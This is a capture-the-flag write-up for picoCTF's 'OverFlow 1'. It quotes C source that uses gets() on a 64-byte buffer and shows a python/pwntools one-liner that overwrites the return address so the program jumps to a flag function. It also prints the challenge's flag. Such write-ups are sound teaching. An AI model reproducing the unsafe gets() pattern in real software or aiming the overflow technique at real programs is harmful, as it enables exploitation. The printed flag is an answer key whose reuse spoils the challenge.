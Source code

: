 # OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE)+FLAG_ADDRESS```

first let's get "flag" function address using gdb

![](overflow1.png)

we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+12)+p32(0x080485e6)" | ./vuln```

![](overflow2.png)


# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

